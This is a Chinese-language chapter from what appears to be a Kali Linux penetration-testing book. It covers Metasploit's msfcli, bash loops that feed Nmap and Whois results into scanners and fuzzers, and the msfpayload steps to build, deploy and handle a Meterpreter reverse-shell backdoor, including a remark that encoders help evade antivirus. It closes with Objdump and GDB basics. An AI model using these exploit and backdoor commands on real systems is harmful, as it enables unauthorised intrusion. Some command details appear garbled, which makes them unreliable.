






# 第四章：利用和逆向工程

在上一章中，我们介绍了一些处理网络上目标枚举的命令行工具。在本章中，我们将看一些工具的集合，使您能够执行诸如逆向工程和后门主机等活动，并且我们还将介绍集成强大工具的方法，例如 Metasploit 利用框架和 bash 脚本。

此外，在本章中，我们将涵盖一系列工具，这些工具可能使您能够发现内存损坏、代码注入和一般数据或文件处理缺陷，这些缺陷可能用于实例化任意代码执行漏洞。

在某个时间点发现的每个漏洞都涉及逆向工程。当有人找出如何利用给定行为时——在一段代码中——这意味着这个人在某种程度上详细说明了给定行为的细微差别，并利用这些知识来利用它。这个过程称为逆向工程。由于逆向工程具有如此重要的意义，我们将涵盖一些在逆向工程中发挥作用的基本工具。我们将特别关注 Kali Linux 中打包的纯命令行驱动的工具——因此是本书的标题。

# 使用 Metasploit 命令行界面

Metasploit 可能是最广泛使用的渗透测试和利用开发框架，人们用来测试、发现和开发漏洞利用的最常用工具。多年来，Metasploit 被视为安全行业最有才华的开发人员和利用编写者的支持。

Metasploit 框架的许多有用功能之一是其能够将其模块和工具的调用暴露给命令行。这意味着 Metasploit 可以在功能丰富和强大的问题解决环境中使用 bash shell。这个功能称为**Metasploit 命令行界面**（**msfcli**）。

## 使用 msfcli 入门

在本节中，我们将看到如何使用 Metasploit 命令行界面进行基本扫描，利用一些通用漏洞，并将一些有用的 bash 脚本与 Metasploit 命令行界面集成。

以下是`msfcli`命令的用法规范：

```
msfcli [MODULE] [OPTIONS] [MODE]
[MODULE] := [exploit/* | auxiliary/* | payload/* | post/* ]
[OPTION] := [ [option_name] = [value] <space> ]*
[MODE] := [A | AC | C | E | H | I | O | P | S | T ]

```

从前一个命令中，`MODULE`，`OPTIONS`和`MODE`解释如下：

+   `[MODULE]`：这是要调用的 Metasploit 模块。这可以是您可以从 Metasploit 控制台调用的任何模块。

+   `[OPTIONS]`：这是给定模块的空格分隔的键值对选项列表。这些选项特定于此处调用的模块。在接下来的段落中，我们将看到如何确定给定模块的选项。

+   `[MODE]`：这是模块的调用模式。

考虑以下示例：

```
msfcli exploit/windows/smb/ms08_067_netapi RHOST=192.168.10.108 E

```

在前面的示例中，`MODULE`选项将是`exploit/windows/smb/ms08_067_netapi`，`OPTIONS`列表是`RHOST=192.168.10.108`。

您可以按以下方式为模块指定更多选项列表：

```
msfcli exploit/windows/smb/ms08_067_netapi RHOST=192.168.10.108 RPORT=445 SMBPIPE=BROWSER

```

这里并不重要这个利用在这里做什么；我们只是演示了 msfcli 的基本用法。稍后，我们将演示如何使用 msfcli 来了解更多关于利用模块的方法。

## 使用 msfcli 的调用模式

根据您指定的调用模式，可以以不同的方式调用 Metasploit 命令行界面。调用模式的效果各不相同，即从提供有关模块的信息，例如有关谁开发了它的信息，到提供有关如何启用 IDS 规避技术以及可以用于触发或打包相关漏洞的有效负载的信息（如果适用）。

首先，让我们看一下旨在提供有关模块信息的调用模式。您可能不总是知道要调用的模块有哪些选项。在这种情况下，Metasploit 有一个非常有用的模式，您可以使用 msfcli 模块调用。以下命令用于执行此操作：

```
msfcli exploit/windows/smb/ms08_067_netapi O

```

前面的命令将产生以下输出：


选项调用模式——作为命令行参数缩写为`O`——显示了仅必要选项的简要摘要，即成功运行指定模块所需的严格必要的选项。您可能还想了解一些关于模块背景的信息，例如由谁开发，它试图利用哪些漏洞，以及它设计用于目标的操作系统。您可以使用摘要调用模式来找到这些信息，它的缩写是`S`。以下命令用于执行此操作：

```
msfcli exploit/windows/smb/ms08_067_netapi S

```

+   前面的命令将产生以下输出：


在前面的截图中演示的模式只打印基本必要选项的摘要。您还可以让 Metasploit 使用以下命令打印出使用高级模式的完整选项列表：

```
msfcli exploit/linux/imap/imap_uw_lsub A

```

前面的命令产生以下输出：


出于简洁起见，前面截图中的一些输出已被省略。以下可能是其他调用选项：

+   `AC`：详细说明了给定模块的可用选项

+   `C`：检查所提供模块的例行程序

+   `I`：显示此模块可用的 IDS 规避技术

+   `P`：列出模块的可用有效载荷类型

+   `T`：列出此模块的可用操作系统目标

这结束了我们关于 Metasploit Framework 命令行界面的讨论。下一部分将介绍如何在渗透测试或漏洞评估的常见情况下，将这种功能与 bash 脚本和其他命令行实用程序集成起来。

## Bash hacks 和 msfcli

考虑到 msfcli 允许我们直接从命令行调用 Metasploit 模块，我们可以做一些非常有用的事情，比如将 Nmap 扫描的结果与 msfcli 集成，或者直接将 DNS 或 Whois 查找的结果插入到 msfcli 模块调用中。接下来的部分将演示一些非常有用的 bash 脚本，就是做这些事情。

如果您想要检查从 Whois 查找中传播的一系列 IP 的漏洞利用性，您可以直接从命令行界面执行以下 bash 脚本：

```
msfcli [MODULE] RHOSTS=`whois $(dig [domain name] +short ) |\ 
awk –F\  '/inetnum/ { print $2"-"$4 }'` C

```

在前面的命令中，`[MODULE]`和`[DOMAIN NAME]`将分别是您想要使用的 Metasploit 模块的名称和路径（就像在 Metasploit 控制台中使用的那样），以及您想要针对其运行模块的域名。

### 提示

**关于长命令行**

前面的示例必须完整输入，一次输入到您的 bash shell 中的一行命令。这意味着在输入完整行之前不要按*Enter*。`\`转义字符允许您在终端中输入多行并将其视为单个命令行调用。这避免了输出在屏幕上换行，这在某些情况下会变得有点难以阅读。

您选择的模块需要支持检查调用模式的多个主机。一个简单的实际示例是使用给定的域名与 Metasploit 模块之一进行端口扫描。以下命令显示了如何执行此操作：

```
msfcli auxiliary/scanner/portscan/syn RHOSTS=`whois $(dig [domain name] +short ) | awk –F\  '/inetnum/ { print $2"-"$4 }'` E

```

当然，如果您正在评估的组织根据 Whois 数据库负责一些 IP 范围，您可以首先枚举所有 IP 范围，并使用以下命令将它们提供给 msfcli：

```
for range in `whois –i mnt-by [maintainer]|awk –F '/inetnum/ { print $2"-"$4 }'
 do
 msfcli auxiliary/scanner/portscan/syn RHOSTS=$range E
 done

```

如果您想在单个命令行中指定先前的命令，它将如下所示的代码：

```
for range in `whois –i mnt-by [maintainer] | awk –F '/inetnum/ { print $2"-"$4 }'; do msfcli auxiliary/scanner/portscan/syn RHOSTS=$range E; done

```

您可以将 msfcli 与 bash 结合使用的另一种有用的方法是从 Nmap 扫描中拔出，并根据发现的开放端口开始使用一些 Metasploit 模糊测试模块对它们进行模糊测试。以下命令向您展示了如何执行此操作：

```
for ip in `nmap –v –T5 –p[PORT] [HOST] | awk –F\  '/[PORT]\/[tcp | udp] on/ { print $6 }'`
 do
 msfcli [MODULE] RHOST=$ip E;
 done

```

如果在单个命令行中指定，它将如下所示：

```
for ip in `nmap –v –T5 –p[PORT] [HOST] | awk –F\  '/[PORT]\/[tcp|udp]on/ { print $6 }'`; do msfcli [MODULE] RHOST=$ip E; done

```

例如，您可以使用以下代码对页面上的 HTTP 表单进行模糊测试：

```
for ip in `nmap –v –T5 –p80 [HOST] | awk –F\  '/80\/tcp on/ { print $6 }'`; do msfcli auxiliary/fuzzers/http/http RHOST=$ip E; done

```

另一个例子是使用以下代码对 SSHv2 服务器进行模糊测试：

```
for ip in `nmap –v –T5 –p22 [HOST] | awk –F\  '/22\/tcp on/ { print $6 }'`; do msfcli auxiliary/fuzzers/ssh/ssh_version_2 RHOST=$ip E; done

```

这里可以展示许多其他例子。实际上，您可以编写一本完全由涉及 msfcli 和端口扫描工具的例子组成的书。不仅如此，您还可以开发自己的 Metasploit 模糊测试和漏洞扫描模块。

解释这些例子的目的是向您展示一个通用的样式，您可以遵循这个样式，如果您想从 Nmap 或其他枚举工具中抓取 IP 列表并自动将结果提供给 msfcli。在开发这些类型的 bash 脚本时，我们将遵循以下通用模式：

1.  使用`grep`或 awk 来隔离您感兴趣的结果中的数据，以便与您的 Metasploit 模块集成。

1.  迭代通过提取的数据样本列表（如果适用）。

1.  将它们填充到调用给定模块的命令行。

有很多问题，您不仅可以解决，还可以使用这种模式自动化。它还可以帮助您以默认方式组合 Metasploit 模块，除非我们将自己的模块脚本化到功能中。

# 使用 Metasploit 准备有效载荷

在渗透测试期间，您可能经常需要证明您对主机有无限制的控制，或者您可能需要实际使用某种远程访问命令行界面与它们交互。如果您发现自己处于可以在主机上执行任意代码的情况，并且希望远程控制它，那么利用这种情况的最常见方式之一是上传一个允许您远程与命令行或提示交互的 shell。Metasploit 有一个专门用于满足这些情况的工具，称为 msfpayload。

Metasploit 有效载荷生成器（msfpayload）允许您生成一个可执行包，该包连接到在您的 Metasploit 会话中运行的 Meterpreter 实例。

### 提示

**关于 Meterpreter**

Metasploit 的 Meterpreter 是一个接口，允许用户动态地将指令注入到使用适当的 Meterpreter 启用的有效载荷感染的主机中。简单来说，渗透测试人员可以准备调用回到 Meterpreter 实例的有效载荷，这使他们可以使用各种工具与主机交互，例如注入代码以转储密码哈希、提升权限，甚至避免检测。

在本教程中，我们将演示如何准备授予您此功能的利用。

首先，让我们看一下可用的有效载荷。您可以通过执行以下命令来查看这些：

```
msfpayload –l

```

以下截图演示了先前的选项：


每个有效载荷都有许多选项，这是大多数 Metasploit 模块的风格。要查看有效载荷的可用调用选项，您应该执行以下命令：

```
msfpayload [payload] O

```

例如，考虑以下命令：

```
msfpayload cmd/unix/reverse O

```

以下截图演示了先前的命令：


根据您想要使用的代码格式，有许多方法来表示各种有效载荷。以下是可用的选项：

+   `R`：这是用于原始的二进制格式。

+   `C`：这是用于 C 代码

+   `y`：这是用于 Ruby 代码

+   `H`：这是用于 C#代码

+   `P`：这是用于 Perl 代码

+   `J`：这是用于 JavaScript

+   `X`：这是用于可执行格式

+   `D`：这是用于动态链接库（DLL）

+   `V`：这是用于 VBA 代码

+   `W`：这是用于 War 存档

以下屏幕截图演示了其中一些选项的效果：



每个选项都存在以满足不同操作系统和运行时环境的利用。

# 创建和部署有效载荷

例如，我们将为 Ubuntu 32 位机器创建一个后门。执行以下步骤：

1.  以可执行格式创建有效载荷。在这里，我们将使用 Meterpreter shell 并将其保存在名为`backdoor`的文件中。以下命令将实现此目的：

```
msfpayload linux/x86/meterpreter/reverse_tcp LHOST=[Attacker IP] X > backdoor

```

`LHOST`是您作为攻击者使用的机器的 IP 地址，或者更确切地说，您希望与后门进行交互的机器的 IP 地址。

请参阅以下屏幕截图以获取示例：


1.  在目标主机上部署后门。这一步显然取决于您对所述主机的访问权限。对于我们的示例，我们将简单地使用`scp`将其上传到给定用户的主目录。

1.  在攻击者机器上启动 Metasploit 处理程序，使用以下代码：

```
msfcli multi/handler payload=linux/x86/Meterpreter/reverse_tcp LHOST=[attacker IP]

```

例如，使用以下命令启动 Metasploit 处理程序：

```
msfcli multi/handler payload=linux/x86/Meterpreter/reverse_tcp LHOST=192.168.10.103

```

1.  在目标主机上执行有效载荷。对于我们的示例，这将简单地涉及启动有效载荷，如下面的屏幕截图所示：

1.  您应该在您的机器上看到以下启动，即与 Meterpreter 处理程序的连接回来：

前面的屏幕截图显示了对受影响主机的目录访问。

您应该记住，msfpayload 在安全行业中被广泛使用，无论是渗透测试人员还是编写防病毒软件的人。这意味着，如果您尝试在安装了现代防病毒软件的主机上部署一种常见的 Metasploit 有效载荷，它可能不会触发防病毒软件数据库中的签名，除非您使用编码器或多态引擎的服务。这两种机制（编码和多态化）对您的后门中的恶意有效载荷进行编码和混淆，以使防病毒软件无法识别它为恶意。有关更多详细信息，请参阅本章末尾的*进一步阅读*部分。

msfpayload 命令就介绍到这里。我们可以继续学习逆向工程工具。

# 反汇编二进制文件

正如本章介绍中所提到的，逆向工程是全面有效的安全研究的一个关键方面。对编译的可执行文件进行反汇编是逆向工程的一个重要方面。

反汇编是尽可能逆转代码编译效果的过程。Kali Linux 提供了一些非常好的工具来协调这个过程；然而，当涉及到命令行上的反汇编时，很少有工具能与 Objdump 媲美。

## 使用 Objdump 进行反汇编

在本节中，我们将学习如何使用 Objdump 及其各种调用选项从**可执行和可链接格式**（**ELF**）二进制文件中剥离出各种信息部分。

### 提示

**关于可执行和可链接格式**

ELF 是 Linux/Unix 系统的可执行文件、共享库、目标文件及其各种衍生物的文件格式。

使用 Objdump 非常简单，但您能否正确使用它取决于您对 ELF 格式的理解程度；因此，我在本章的*进一步阅读*部分中包含了一些非常有用的参考资料，其中详细介绍了格式，建议您查阅。

要对给定的二进制文件进行反汇编——在这里我们将使用 bash shell 可执行二进制文件的示例——您可以执行以下步骤：

1.  我们将使用 bash shell 的实际二进制文件。要获取它的副本，您可以执行以下命令：

```
cp `which bash` ~/. 

```

上述命令将获取 bash shell 的二进制文件的副本——这本书的当前重点。我们将通过 Objdump 来了解更多关于它的工作原理，并详细说明查找解释其执行方式的区域。我们选择在 bash 可执行二进制文件的副本上工作，以防止意外损坏它——毕竟 Kali 默认以 root 身份运行！

1.  调用以下命令在二进制文件上运行 Objdump：

```
objdump –D bash

```

这个命令的作用是提供`-D`选项，告诉 Objdump 对二进制文件进行反汇编并将其打印到屏幕上。您应该看到如下截图所示的输出：



这就是你需要做的一切，以便 Objdump 对二进制文件进行反汇编。尽管乐趣并不止于此，可执行二进制文件有许多部分，每个部分都专门详细说明了可执行行为的某个部分。Objdump 有许多选项，每个选项都专门用于从二进制文件中提取各种信息。

如果您像我们在示例中那样调用 Objdump，您可能会看到输出的这部分，如下截图所示：


输出详细说明了给定二进制文件中可用的部分；不过，如果您只想查看给定部分的代码，您应该使用以下选项：

```
objdump –t [section name] –D [binary]

```

例如，如果您想转储`.text`部分的代码，您可以使用以下命令：

```
objdump –t .text –D [binary]

```

对于我们当前的示例，它将产生类似于以下截图的输出：


Objdump 有许多选项可供选择。我在*进一步阅读*部分添加了一些有用的链接，供那些想了解更多的人使用。

## 关于逆向工程汇编代码的说明

所以，就 Objdump 而言，我们已经基本涵盖了基础知识。然而，如果我不提一点关于你需要了解的关于二进制文件的东西，那就对不起你了，这是成为成功的逆向工程师所必须的。

在关于 Objdump 的上一节中，我们学习了如何提取关于`.text`段的信息。ELF 的`.text`段包含可执行代码。这个部分通常包含关于二进制行为的信息，这通常是逆向工程师感兴趣的。ELF 中的可执行代码用汇编语言表示，为了理解`.text`段中的信息，您需要在一定程度上理解汇编代码。

汇编代码是语义上描述机器代码的语言，而机器代码是字节和位的集合，它们实际上控制着你的 CPU 和内存——我们称之为软件。因此，汇编代码代表了运行您的机器的实际代码，而不是 C、C++、Java 等代码是在其中开发的。这是因为计算机实际上没有计算能力来理解 C、C++或任何其他高级语言，我们开发的语言必须依赖编译器来解析和翻译这些语言，将其转换为更基本的、原子的语言，然后才能执行。汇编语言严格地描述了软件计算与 CPU 寄存器和内存之间的交互，反之亦然。这是基于一组简单的操作：加法、减法、异或、值的比较等等。

每个 CPU，或者说架构，都以其独特的格式表示这些指令。这些格式称为指令，并可以根据一组基本属性进行分类。广义上，它们被分为**精简指令集计算机**（**RISC**）或**复杂指令集计算**（**CISC**）。然后，每个 RISC 和 CISC 指令集根据可以从内存移动到寄存器的最大数据量进行定义，这称为寄存器大小。我相信你们中的一些人对 32 位或 x86 和 64 位或 x86-64 机器已经很熟悉了。

如果你有一些编程经验，你就会知道当代码执行时，几乎总是在函数的上下文中执行。这意味着翻译成汇编语言的大部分代码将描述在函数内设置执行并将执行转移到另一个函数的过程。每个指令集和架构都有一个特定的标准，定义了在 CPU 寄存器和涉及的操作方面如何完成这个过程。这个标准被称为过程调用函数。我在*进一步阅读*部分中包含了一些 ARM、Intel 和 MIPS 架构的过程调用标准，除非你想花几周时间阅读有关汇编语言的内容，而你实际上并不需要这样做，我建议你查看这些参考资料。

话虽如此，我们可以继续使用 GDB 对二进制文件进行动态分析。

# 动态分析二进制文件

诸如 Objdump 之类的工具非常适合在可执行文件不执行时查看代码。然而，如果你想实际观察可执行文件的执行并了解它如何处理信息以及它的内部数据结构如何被执行改变，你将需要一种称为调试器的工具。其中一种工具称为**GNU 调试器**（**GDB**）。在本节中，我们将介绍 GDB 的基本用法，你也将了解到它允许我们在二进制文件执行期间执行哪些任务。

## 使用 GDB 入门

首先，让我们加载一个二进制文件并在 GDB 中运行它，使用以下命令：

```
gdb [binary]

```

对于我们当前的例子，这个命令看起来像这样：

```
gdb ./bash

```

GDB 在这里所做的是准备在二进制文件执行期间附加到它自身——这意味着它将二进制文件放置在一个特殊的环境中，允许它在执行期间观察详细信息。它还尝试从提供的文件中读取调试信息，这是一组帮助更语义地描述程序以进行测试的信息。不幸的是，像我们的例子中一样，bash 并没有使用调试标志进行编译。这意味着没有关于对象的语义元数据，比如变量名、源代码到汇编代码的映射等，供 GDB 使用，你只能使用低级的汇编代码。然而，对于一个决心的逆向工程师来说，这并不是死路。

一旦二进制文件加载完成，我们要做的第一件事就是在 GDB 中运行程序。在`gdb`提示符中使用以下命令：

```
(gdb) run

```

你应该在屏幕上看到以下内容：


GDB 和大多数调试程序的操作方式是，它们允许您在程序的可执行代码中指定一个停止点或者说断点。这使您可以停止程序并检查其数据结构以获取信息。一旦程序达到断点，GDB 允许您对程序执行许多操作。您可以检查 CPU 寄存器的值，或者在程序执行期间可用于此程序的 CPU 寄存器内容的副本。您还可以检查内存的值，打印出局部和全局变量，检查堆栈，并执行大量其他任务。我们将介绍最基本的内容，以便让您开始并向您展示如何获取有关 GDB 功能的更多信息。

您还可以使用`run`命令将参数传递给您当前正在研究的可执行文件。命令如下：

```
(gdb) run [arguments list]

```

例如，考虑以下命令：

```
(gdb) run Hello World

```

前面的命令将把字符串`Hello`和`World`作为参数传递给当前可执行文件。您还应该知道，`run`命令与 bash 命令行处理器完全集成，因此您可以使用 bash 的完整规范，命令替换，重定向和管道通过`run`命令传递参数。以下是一个典型的例子：

```
(gdb) run `cat /etc/passwd | awk –F\: '/^root/ { print $0 }'`

```

前面的命令将传递一个参数，该参数包含`/etc/passwd`文件中以单词`root`开头的所有行作为当前可执行文件的参数。

## 设置执行断点和监视点

因此，继续进行，您可能希望在使用 GDB 进行逆向工程时的某个时刻设置断点，但在这样做之前，我们需要找到要设置断点的地址。

在本例中，我们将使用`main`函数中的第一个地址，该地址在程序启动时立即执行。在这样做之前，我们需要找出这个地址，您可以使用以下命令来执行：

```
(gdb) breakpoint main

```

前面的命令将获取执行名为`main`的函数中的第一个地址。如果您想要在`main`函数中的任意地址设置断点，您需要在代码中进行一些调查。要找出`main`函数中可用的地址，执行以下命令：

```
(gdb) disassemble main

```

前面的命令告诉 GDB 反汇编给定可执行文件的`main`函数。这通常是开发人员编写的与给定可执行文件特定的所有代码的起点。您应该看到类似以下截图出现在屏幕上：


在上面的截图中，我们可以看到正在使用`disass`命令，它是`disassemble`命令的缩写。它执行与`disassemble`命令相同的功能。

上面的截图显示了 GDB 如何反汇编`main`函数。我们感兴趣的是`main`函数的第一个地址。为了简化操作，我们将模拟在前面的示例中执行的`main`断点命令的行为。您要查找的地址是列出的第一个地址；在本例中，它将是地址`0x0806dc0`。这里以十六进制格式列出地址。如果您不习惯使用十六进制数字，您应该尽快学习它们的工作原理；大多数逆向工程师可能更多地以十六进制阅读而不是以母语阅读！

出于兴趣，您可能已经猜到 Objdump 应该为您提供有关启动`main`函数的地址的相同信息。以下截图显示了 Objdump 关于 main 函数起始点的信息：


Objdump 似乎同意 GDB 关于`main`函数的起始地址。这是因为可执行文件的`.text`部分被映射到静态和预定的集合地址；也就是说，`.text`部分将始终可靠地出现在`.text`部分中详细说明的地址中。

所以，现在您想要做的是设置此地址的断点，作为断点的简单演示。要执行此操作，请在 GDB 提示符中输入以下命令：

```
(gdb) breakpoint * [main start address]

```

对于我们的示例，此命令将按以下方式工作：

```
(gdb) breakpoint * 0x0806dc0

```

上一个命令应该产生以下输出：



您还可以使用断点命令的简写形式，操作如下：

```
(gdb) b [function name]

```

否则，您可以使用以下命令指定特定的内存地址，如下所示：

```
(gdb) b * [address]

```

除了设置断点，根据指令指针的值中断和停止二进制文件的执行之外，您还可以使用监视点中断执行。以下命令显示了如何为给定变量设置监视点：

```
(gdb) watch –l [variable name]

```

使用变量的地址，您可以按以下方式执行：

```
(gdb) watch –l * [address]

```

在我们当前的示例中，我们可以为堆栈指针的顶部设置一个监视点，即在`main`开始执行时保存的 ESP 中的值：


如果我们重新运行可执行文件，监视点将触发如下：



## 检查寄存器、内存值和运行时信息

一旦您掌握了在二进制文件中停止的位置——也就是在函数或代码中特定行或一旦变量根据给定条件更改其值时停止——您可能希望开始查看可执行文件的数据结构和内存内容。在我们刚刚讨论的示例基础上，让我们看一下第一个断点命中后保存的寄存器值。以下命令显示了如何执行此操作：

```
(gdb) info registers

```

上一个命令应该产生以下输出：



您还可以打印当前堆栈跟踪，即关于哪个函数是当前函数的调用者以及在调用期间传递了哪些参数的信息，以及调用者的调用者和调用者的调用者等等。

以下是当前堆栈跟踪的示例：

```
(gdb) info stack

```

上一个命令应该产生以下输出：


您还可以使用以下命令查看堆栈的实际内容：

```
(gdb) x/5x $esp

```

在这里，我们使用了称为 x 的瑞士军刀，它可以打印内存值。它在 GDB 提示符中用于以各种格式打印可执行文件中的内存、局部变量和其他信息存储区域中的值。例如，x 能够以十进制、十六进制、八进制和二进制格式打印值，并将数据转换为指令，以便它可以打印存储在给定内存地址处的可执行指令列表。我们在这里所做的是给`x`一个参数`/5x`，这意味着：

> 以十六进制格式打印 5 个地址值—用'x'表示。

要了解有关`x`的更多信息，请在 GDB 提示符中执行`help x`命令。

无论如何，上一个命令应该产生以下输出：


如果您想要估计执行时当前实例的堆栈大小，可以执行以下命令：

```
(gdb) set $count =  ( $ebp - $esp ) / 4
(gdb) eval "x/%dx $esp", $count

```

根据您在程序执行期间执行这些命令的时间，上述命令将在屏幕上打印以下内容：


您可以使用`eval`命令基于变量值构建命令，以便用于任何目的。在这里，我们使用此命令计算了保存在 ESP 寄存器中的堆栈指针值的顶部和保存在 EBP 寄存器中的堆栈指针底部的地址之间的差异。我们还将此值除以`4`，以计算打印整个堆栈所需的地址数量。

接下来，还有许多其他运行时分析工具和功能。有关这些功能的更多信息，请在 GDB 提示符中执行以下命令：

```
(gdb) info

```

这将列出并描述您可以执行的信息类型函数。要了解有关 GDB 任何功能的更多信息，可以使用`help`函数，如下所示：

```
(gdb) help

```

这就结束了 GDB 的基本用法。希望您已经学会了足够的知识，使其成为逆向工程和渗透测试中的有用工具。

# 总结

在本章中，我们介绍了在 Kali Linux 中可用的基于命令行的逆向工程和通用应用程序专注的利用工具，并详细介绍了如何将它们与一些非常有用的 bash 脚本集成。

更具体地说，我们学会了使用 Metasploit 命令行界面。我们还介绍了 Metasploit Frameworks 基于命令行的有效负载生成器，并且举例说明了如何为 Linux 32 位机器构建后门。最后，我们看了 Objdump 和 GDB 这两个逆向工程工具。我们使用 Objdump 详细说明了可执行文件的各个部分，并查找了给定函数的地址。我们的例子是查找`main`。使用 GDB，我们介绍了设置断点、设置监视点，并且不仅可以在执行之前从二进制文件中获取有用信息，还可以在执行期间通过转储堆栈、寄存器值以及跟踪一些内存值的变化来获取有用信息。

希望这些工具在您需要打开应用程序并找出其全部内容时会派上用场。有关本章中涵盖的工具以及一些重要的支持技术信息，请参阅*进一步阅读*部分中的链接。

# 进一步阅读

+   关于 Metasploit Meterpreter，您可以在[`www.offensive-security.com/metasploit-unleashed/About_Meterpreter`](http://www.offensive-security.com/metasploit-unleashed/About_Meterpreter)找到更多信息

+   有关 Metasploit 的 Meterpreter，请转到[`projetsecubd.googlecode.com/svn-history/r17/trunk/Documents/meterpreter.pdf`](https://projetsecubd.googlecode.com/svn-history/r17/trunk/Documents/meterpreter.pdf)

+   有关 Meterpreter 基础知识，请转到[`www.offensive-security.com/metasploit-unleashed/Meterpreter_Basics`](http://www.offensive-security.com/metasploit-unleashed/Meterpreter_Basics)

+   有关 MSFCLI 的更多信息，请访问[`www.offensive-security.com/metasploit-unleashed/Msfcli`](http://www.offensive-security.com/metasploit-unleashed/Msfcli)

+   您可以在[`www.gnu.org/software/gdb/documentation/`](http://www.gnu.org/software/gdb/documentation/)阅读 GNU GDB 文档。

+   您可以在[`wiki.osdev.org/ELF`](http://wiki.osdev.org/ELF)阅读可执行和可链接格式

+   有关 ELF 对象文件格式：简介，请转到[`www.linuxjournal.com/article/1059`](http://www.linuxjournal.com/article/1059)

+   要了解有关 DWARF 调试信息格式修订 2.2.0 的更多信息，请转到[`www.dwarfstd.org/doc/dwarf-2.0.0.pdf`](http://www.dwarfstd.org/doc/dwarf-2.0.0.pdf)

+   有关 Objdump 命令参考的详细信息，请转到[`sourceware.org/binutils/docs/binutils/objdump.html#objdump`](https://sourceware.org/binutils/docs/binutils/objdump.html#objdump)

+   您可以在[`software.intel.com/sites/default/files/m/d/4/1/d/8/Introduction_to_x64_Assembly.pdf`](https://software.intel.com/sites/default/files/m/d/4/1/d/8/Introduction_to_x64_Assembly.pdf)阅读英特尔的 x64 汇编简介

+   此外，您还可以在英特尔的《英特尔体系结构软件开发人员手册第 2 卷》中找到[`www.cs.cmu.edu/~410/doc/intel-isr.pdf`](https://www.cs.cmu.edu/~410/doc/intel-isr.pdf)

+   ARM-THUMB 过程调用标准可以在[`www.cs.cornell.edu/courses/cs414/2001fa/armcallconvention.pdf`](http://www.cs.cornell.edu/courses/cs414/2001fa/armcallconvention.pdf%20)找到

+   ARM 过程调用标准-ARM 可以在[`infocenter.arm.com/help/topic/com.arm.doc.ihi0042e/IHI0042E_aapcs.pdf`](http://infocenter.arm.com/help/topic/com.arm.doc.ihi0042e/IHI0042E_aapcs.pdf)找到

+   您还可以在苹果开发者网站上阅读更多关于 iOS ABI 函数调用指南的信息，网址为[`developer.apple.com/library/ios/documentation/Xcode/Conceptual/iPhoneOSABIReference/Introduction/Introduction.html`](https://developer.apple.com/library/ios/documentation/Xcode/Conceptual/iPhoneOSABIReference/Introduction/Introduction.html)

+   Dennis Yurichev 的《逆向工程入门》可以在[`yurichev.com/writings/RE_for_beginners-en.pdf`](http://yurichev.com/writings/RE_for_beginners-en.pdf)找到
